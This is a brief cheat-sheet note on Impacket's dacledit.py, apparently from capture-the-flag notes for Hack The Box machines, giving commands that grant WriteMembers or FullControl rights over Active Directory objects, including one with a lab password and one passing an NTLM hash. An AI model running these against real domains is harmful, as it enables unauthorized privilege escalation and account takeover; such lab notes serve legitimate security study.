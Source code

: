 # dacledit.py

## Overview

Python script to read and manage the Discretionary Access Control List of an object

## Usage

```shell
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

Give Full control

```shell
dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>'
```

```shell
impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip haze.htb 'haze.htb/Haze-IT-Backup$' -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```